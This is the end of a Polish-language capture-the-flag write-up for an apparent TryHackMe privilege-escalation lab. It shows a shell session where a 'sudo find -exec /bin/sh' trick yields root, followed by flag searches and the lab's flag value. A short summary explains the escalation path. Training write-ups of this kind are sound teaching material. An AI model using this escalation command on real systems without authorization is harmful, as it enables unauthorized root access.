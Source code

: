 ```
[missy@ip-10-10-58-95 ~]$ sudo find . -exec /bin/sh \; -quit

sh-4.2# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

sh-4.2# whoami
root

sh-4.2# find / -type f -name "flag*.txt" 2>/dev/null | grep -v "Permission denied"
/home/missy/Documents/flag1.txt
/home/rootflag/flag2.txt

sh-4.2# cat /home/rootflag/flag2.txt
THM-168824782390238
```

### Podsumowanie

Rozwiązując ostatnie zadanie udało mi się eskalować uprawnienia za pomocą eskalacji poziomej. To oznacza, że zdobyłem poświadczenia użytkownika o podobnych uprawnieniach do tego użytkownika z którym zaczynałem. Każdy użytkownik o podobnych uprawnieniach może mieć możliwość użycia innych aplikacji z uprawnieniami ```sudo``` lub grupa tego użytkownika może mieć takie możliwości. Dzięki temu eskalowałem do użytkownika ```root```.

![](/grafika/koniec.png)